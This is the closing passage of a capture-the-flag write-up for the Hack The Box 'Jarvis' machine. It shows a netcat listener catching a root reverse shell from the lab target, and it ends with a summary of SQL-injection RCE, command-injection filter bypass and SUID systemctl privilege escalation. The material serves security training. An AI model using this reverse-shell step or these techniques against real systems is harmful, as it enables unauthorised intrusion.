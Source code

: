 - **Profit:**

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Jarvis)-[2023.07.28|21:08:05(HKT)]
└> rlwrap -cAr nc -lvnp 53
listening on [any] 53 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.143] 47078
[...]
root@jarvis:/# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
jarvis
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:71:d5 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.143/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:71d5/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**root.txt:**
```shell
root@jarvis:~# cat root.txt
{Redacted}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Jarvis/images/Pasted%20image%2020230728211001.png)

## Conclusion

What we've learned:

1. Remote Code Execution (RCE) Via Union-Based SQL Injection With `Into outfile`
2. OS Command Injection & Filter Bypass
3. Vertical Privilege Escalation Via Misconfigurated `systemctl` SUID Binary